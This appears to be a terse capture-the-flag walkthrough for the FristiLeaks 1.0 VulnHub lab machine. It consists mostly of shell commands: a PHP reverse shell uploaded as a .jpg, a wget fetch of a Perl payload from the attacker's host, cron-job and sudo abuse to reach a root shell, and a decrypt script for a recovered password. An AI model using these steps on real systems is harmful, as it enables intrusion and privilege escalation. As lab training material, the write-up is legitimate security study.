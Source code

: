 By dirb and decode:  		
eezeepz  			
keKkeKKeKKeKkEkkEk  		
then upload:  		
http://192.168.139.145/fristi/uploads/revshell.php.jpg  			

```shell
bash-4.1$ cd /home/eezeepz
bash-4.1$ ls -aul
bash-4.1$ cat notes.txt
bash-4.1$ wget 192.168.139.129/perl.pl
Get admin ID:
bash-4.1$ echo "/usr/bin/perl /tmp/perl.pl" > /tmp/runthis
[admin@localhost /]$ whoami
whoami
admin
```shell
Find out the txt:
=RFn0AKnlMHMPIzpyuTI0ITG
Need make a script:
decrypt.py
----------------------------------------------------
import base64, codecs,sys
def decodeString(str):
	rot13crypt=codecs.decode(str[::-1], 'rot13')
	return base64.b64decode(rot13crypt)
print decodeString(sys.argv[1])
----------------------------------------------------

Optional:
```shell
bash-4.1$ echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
bash-4.1$ cd /tmp
cd /tmp
bash-4.1$ ls
ls
cronresult  runthis
bash-4.1$ cat cronresult
bash-4.1$ cd /home/admin
```
Decrypt password:

LetThereBeFristi!

```shell
sudo -u fristi ./doCom chmod -R 777 /root
```
or
```shell
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
```
Final:
bash-4.1# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]
I wonder if you beat it in the maximum 4 hours it's supposed to take!
Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)

Flag: Y0u_kn0w_y0u_l0ve_fr1st1
